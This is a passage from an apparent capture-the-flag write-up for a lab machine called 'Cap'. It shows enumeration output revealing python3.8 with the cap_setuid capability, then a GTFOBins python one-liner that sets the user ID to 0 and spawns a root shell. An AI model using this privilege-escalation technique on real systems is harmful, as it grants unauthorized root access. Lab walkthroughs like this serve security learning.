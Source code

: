 ```bash
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

<snip>

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

<snip>
```
{% endraw %}

<br />
Check python in the <a href="https://gtfobins.github.io/gtfobins/python/">GTFOBins</a> and notice that there is a capabilities section.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cap/cap.png" title="GTFOBins for Python" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Execute the python indicated in the GTFOBins.

{% raw %}
```bash
nathan@cap:/dev/shm$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```
{% endraw %}
